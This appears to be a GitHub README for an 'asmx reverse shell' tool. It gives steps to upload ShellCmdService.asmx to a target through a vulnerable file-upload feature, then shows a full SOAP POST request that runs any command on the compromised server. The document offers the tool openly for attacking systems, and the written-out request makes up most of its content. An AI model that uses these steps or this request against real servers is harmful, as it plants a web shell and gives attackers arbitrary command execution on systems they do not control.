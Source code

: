 # asmx-reverse-shell

This repository contains an asmx reverse shell for achieving code execution using file upload functionality.

## Steps for Code Execution

1. **Upload the Reverse Shell File:**
   - Upload `ShellCmdService.asmx` to the target machine. This can be done through a vulnerable file upload functionality on a web application.

2. **Execute Commands:**
   - Send a POST request to the server using Burp Suite.

   Example request:

   ```http
   POST /ShellCmdService.asmx HTTP/1.1
   Host: 127.0.0.1
   Content-Type: text/xml
   Content-Length: 347

   <?xml version="1.0" encoding="utf-8"?>
   <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
     <soap:Body>
       <ExecCommand xmlns="http://tempuri.org/">
         <cmd>Command</cmd>
       </ExecCommand>
     </soap:Body>
   </soap:Envelope>

Replace `127.0.0.1` with the actual host and modify <cmd>`Command`</cmd> with the command you want to execute on the target system.

Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or create a pull request.
